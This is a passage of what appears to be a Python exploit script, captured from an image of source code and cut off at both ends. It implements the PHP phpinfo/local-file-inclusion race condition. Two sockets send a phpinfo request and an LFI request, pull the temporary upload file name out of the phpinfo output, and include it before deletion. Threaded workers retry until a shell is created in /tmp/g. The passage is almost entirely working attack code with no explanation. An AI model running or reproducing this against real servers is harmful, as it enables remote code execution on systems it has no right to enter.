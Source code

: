 ```
    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")
        fn = d[i+17:i+31]
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()
                    
            except socket.error:
                return
    

def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)
    
    d = ""
    while True:
        i = s.recv(4096)
        d+=i        
        if i == "":
            break
        # detect the final chunk
```